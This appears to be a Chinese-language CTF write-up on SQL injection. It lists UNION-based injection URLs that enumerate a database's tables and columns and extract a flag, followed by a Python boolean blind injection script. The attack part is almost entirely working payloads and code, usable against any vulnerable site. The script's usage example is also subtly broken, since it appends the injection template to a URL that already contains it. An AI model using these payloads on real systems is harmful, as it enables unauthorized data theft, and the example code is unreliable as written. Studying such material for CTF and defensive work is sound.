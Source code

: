 **解题步骤：**

```sql
-- 1. 判断注入点
http://target.com/user.php?id=1' AND 1=1 --+
http://target.com/user.php?id=1' AND 1=2 --+

-- 2. 判断字段数
http://target.com/user.php?id=1' ORDER BY 3 --+
http://target.com/user.php?id=1' ORDER BY 4 --+ (报错，说明有3个字段)

-- 3. 确定显示位
http://target.com/user.php?id=-1' UNION SELECT 1,2,3 --+

-- 4. 获取数据库信息
http://target.com/user.php?id=-1' UNION SELECT 1,database(),version() --+

-- 5. 获取表名
http://target.com/user.php?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() --+

-- 6. 获取列名
http://target.com/user.php?id=-1' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='flag' --+

-- 7. 获取数据
http://target.com/user.php?id=-1' UNION SELECT 1,flag,3 FROM flag --+
```

### 盲注技巧

```python
# 布尔盲注脚本示例
import requests
import string

def boolean_blind_sqli(url, payload_template):
    result = ""
    
    for i in range(1, 50):  # 假设flag长度不超过50
        for char in string.printable:
            # 构造payload
            payload = payload_template.format(position=i, char=ord(char))
            
            response = requests.get(url + payload)
            
            # 根据页面响应判断
            if "Welcome" in response.text:  # 正确时的标志
                result += char
                print(f"Found: {result}")
                break
        else:
            break  # 没找到字符，结束
    
    return result

# 使用示例
url = "http://target.com/login.php?username=admin' AND ascii(substr((SELECT flag FROM flag),{position},1))={char} --+"
flag = boolean_blind_sqli(url, "admin' AND ascii(substr((SELECT flag FROM flag),{position},1))={char} --+")
```
